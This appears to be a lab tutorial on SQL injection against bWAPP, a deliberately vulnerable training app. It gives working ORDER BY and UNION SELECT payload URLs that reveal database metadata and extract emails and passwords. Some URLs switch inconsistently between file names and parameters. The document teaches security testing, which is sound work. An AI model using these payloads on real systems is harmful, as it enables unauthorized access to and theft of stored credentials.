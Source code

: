 # `03` Injection - SQL injection

1. Select the vulnerability **SQL Injection (GET/Search)** and click "Hack".
2. Explore the vulnerable form. You will see a form with a field to enter a search query (typically called `title` or `id`). Enter a simple term, such as `test`, and click Search. The URL generated from that search will look like:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test&action=search
    ```

    The result of the search will be "not found," which means we're good because "test" doesn't exist in the table, but no error occurred.

    ![image 1](../../.learn/assets/not-found.png)

## Discover the Number of Columns

1. To identify how many columns the original query returns, perform a test using the following injection. Let's try the query with `ORDER BY`:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' ORDER BY 1-- &action=search
    ```

    If you don't see any errors and only a "not found" message, it means the query has at least one column.

2. Increase the number in the `ORDER BY` clause to keep checking until you get a syntax error. For example:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 2-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 3-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 4-- &action=search
    ```

    When you reach the number where you get an error, it means the query has one column less than the last number you tested successfully.

    ![image 2](../../.learn/assets/columsql-error.png)

## Injection with UNION SELECT

Once you've determined the number of columns, use a `UNION SELECT` injection to extract information. For example, if there are 7 columns, you can try:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?id=1' UNION SELECT 1, database(), version(), 4, 5, 6, 7-- &action=search
    ```

> This will show you the database name and the SQL server version.

![image 3](../../.learn/assets/get-version-database.png)

## **Exploring New Functions**

Now that you have obtained the database name and the server version, you can explore more functions to retrieve additional information.

- **Retrieving the current username:**

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, 2, user(), 4, 5, 6, 7-- &action=search
    ```

- **Retrieving table names:**

    Perform a UNION SELECT query to access the `information_schema.tables` table, which contains the table names in the current database. If the total number of columns is 7, use the following URL:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema=database()-- &action=search
    ```

    **In this query:**

    - `table_name` is the column that holds the table names.
    - `table_schema=database()` limits the query to the current database.

    > Always make sure that the columns in the UNION SELECT query match the number of columns in the original query. The output should show the names of the available tables in the database.

    ![image 4](../../.learn/assets/tables-name-sql.png)

- **Retrieving column names:**

    Once you have the table names, retrieve the columns from a specific table. For example, if one of the tables is named `users`, use:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 FROM information_schema.columns WHERE table_name='users'-- &action=search
    ```

    This will return the column names from the `users` table.
    
    ![image 5](../../.learn/assets/colums-name-sql.png)

- **Retrieving sensitive data:**

    Finally, extract sensitive information. If you find a column named `password`, you can retrieve the passwords (or their hashes) with the following query:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, email, password, 4, 5, 6, 7 FROM users-- &action=search
    ```

    This will display the usernames and their passwords.
    
    ![image 6](../../.learn/assets/sensitive-infosql.png)